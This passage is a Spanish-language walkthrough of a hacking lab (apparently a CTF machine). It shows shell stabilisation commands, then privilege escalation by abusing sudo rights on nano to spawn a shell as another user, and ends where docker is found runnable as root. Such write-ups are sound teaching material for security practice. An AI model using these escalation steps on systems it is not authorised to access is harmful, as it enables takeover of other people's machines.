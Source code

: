 ```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user firsthacking

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 9a87d77f85e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 9a87d77f85e6:
    (firsthacking) NOPASSWD: /usr/bin/nano
```

Vemos que podemos ejecutar el binario `nano` como el usuario `firsthacking`, por lo que haremos lo siguiente:

```shell
sudo -u firsthacking nano
^R^X
reset; bash 1>&0 2>&0
```

Y con esto ya seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for firsthacking on 9a87d77f85e6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User firsthacking may run the following commands on 9a87d77f85e6:
    (ALL) NOPASSWD: /usr/bin/docker
```

Vemos que podemos ejecutar el binario `docker` como el usuario `root`, por lo que haremos lo siguiente:

```shell
docker
```
